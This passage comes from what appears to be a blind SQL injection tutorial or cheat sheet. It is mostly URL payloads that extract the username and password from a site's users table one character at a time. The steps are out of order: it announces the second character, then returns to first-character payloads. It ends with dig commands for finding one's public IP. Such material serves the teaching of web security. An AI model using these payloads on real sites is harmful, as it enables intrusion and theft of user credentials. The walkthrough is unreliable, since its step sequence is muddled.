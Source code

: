 We will proceed now to the second character.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),2,1))>99
~~~
NOTE: In order to proceed the second character we have changed “,1,1” to “,2,1”.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
~~~
Same as before, if we get TRUE then we must continue to keep incrementing.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>107
~~~
We get FALSE, let try a lower number.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>104
~~~
We get TRUE, then let try an higher one.
~~~bash
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>105
~~~

### Notes
~~~bash
dig +short myip.opendns.com @resolver1.opendns.com
dig TXT +short o-o.myaddr.l.google.com @ns1.google.com
~~~